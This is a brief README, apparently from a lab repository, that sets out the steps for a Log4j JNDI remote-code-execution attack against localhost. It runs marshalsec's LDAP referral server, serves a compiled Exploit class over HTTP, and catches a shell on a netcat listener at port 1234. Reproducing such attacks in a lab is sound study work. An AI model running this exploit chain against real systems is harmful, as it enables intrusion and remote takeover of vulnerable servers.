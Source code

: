 # log4j and JNDI attacks
How to set up marshalsec's LDAP provider server:
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit

How to set up web server hosting RCE payload:
cd exploit_class \
javac Exploit.java #saved in Exploit.class \
python3 -m http.server 80

Exploit.java sends a webshell to localhost port 1234.

Finally, nc -lvp 1234 and run mvn test.
